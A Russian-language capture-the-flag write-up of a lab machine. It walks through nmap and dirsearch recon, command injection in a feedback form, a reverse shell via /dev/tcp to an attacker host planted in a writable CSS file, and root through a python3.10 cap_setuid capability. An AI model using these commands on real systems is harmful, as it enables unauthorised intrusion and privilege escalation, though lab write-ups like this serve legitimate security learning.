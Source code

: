 #легкая #пентест #hackerlab #pinkot
## Разведка
1) Просканировал ip 192.168.2.219 с помощью nmap, используя следующие команды:
```
nmap -sC -sV 192.168.2.219
```
а также 
```
nmap -p- 192.168.2.219
```
2) на этапе разведки получил следующую информацию

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-14 21:56 MSK
Nmap scan report for 192.168.2.219
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4c:70:d6:90:e9:ec:d1:f7:ef:d2:5b:d5:44:bf:67:c6 (ECDSA)
|_  256 a6:42:dd:0d:0e:8a:ef:f8:76:49:e1:10:5d:4c:fc:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: GreenEdge Portal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

3) помимо этого пофаззил с помощью dirsearch, с последующим выводом
 [21:56:28] 200 -  317B  - /about.php
[21:56:38] 200 -    0B  - /config.php
[21:56:39] 200 -   44B  - /contact.php
[21:56:43] 200 -  385B  - /feedback.php
[21:56:43] 200 -   26B  - /footer.php
[21:56:44] 200 -  225B  - /header.php
[21:56:46] 301 -  319B  - /javascript  ->  http://192.168.2.219/javascript/
[21:56:57] 403 -  278B  - /server-status/
[21:56:57] 403 -  278B  - /server-status
[21:57:00] 301 -  315B  - /static  ->  http://192.168.2.219/static/

## Выбор вектора атаки
1) Сначала меня смутила версия ssh (OpenSSH 8.9p1 ), и была предпринята попытка воспользоваться CVE-2024-6387 (https://github.com/Karmakstylez/CVE-2024-6387)
   Но попытки перехватить сессию не увенчались успехом.
2) Потом я зашел на страчку  192.168.2.219:80, интересным сразу стало поля длы feedback (также это видно после фаззинга dirsearch)
3) Окошко писало:
   Message sent successfully
   Content: <вывод написанного пользаком>
4) В попытках найти уязвимость, была принята попытка ввести js-скрипт
   ```
   <script>alert('XSS')</script>
   ```
   На что ответ был: Content: <пусто>
# Эскплутация 
 1) Потыкав, была обнаружена Comand Injection
 на ввод: ``` ;ls   ``` следовал ответ 
   ```
   about.php
   config.php
   contact.php
   feedback.php
   footer.php
   header.php
   index.php
   static
   ```
   2) в директории   ```static   ``` была обнаружена директория ```css   ``` где был обнаружен файл style.css с правами rwxrwxrwx, 
  3)  я переименовал файл в main (для удобства) а также изменил содержимое, убедившись в том что это работает  я решил залить в файл шелл (пользовался эти сайтом https://www.revshells.com/ )
### В окошке сайта
```
   ;mv static/css/style.css static/css/main
   ;echo "sh -i >& /dev/tcp/192.168.119.18/4440 0>&1" > static/css/main
   ;bash static/css/main
```
###       На xосте
```
nc -lvnp 4440
```
4) Таким образом я смог подлючиться к удаленному серверу. Зайти удалось под пользователем www-data (```whoami```), и доступ к некоторым файлам и директориям был закрыт. Структура файловая система настораживала, поэтому после ```ls -ahl | grep docker``` был обнаружен файл .dockerenv, и тогда я понял, что нахожусь в контейнере.
5) Перемещаюсь внутри контейнера в tmp был обнаружен linpeas.sh с правами на исполнение ```./linpeas.sh```  
6) После его исполенения в поле Capabilities была найдена строчка ```/usr/bin/python3.1cap_setuid=ep```
файлу /usr/bin/python3.10 установлена capability 
cap_setuid похволяет программе произвольно менять UID (идентификатор пользака), флаг ep означает что капабилити активна  и разрешена к использованию
7) Я запустил следующую команду:
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

import os позволил импортировать модуль для работы с OC
os.setuid(0) Установил UID 0 (root)
os.system("/bin/bash") позволил мне запустить shell (/bin/bash), таким образом скрипт запустился от имени root

Под root я пошарился по директориям, зашел в root и home/charley где и нашел кусочки флага собрав один  CODEBY{FR0M_F33DB4CK_70_R007_1337}
Та-дааам флаг найден))
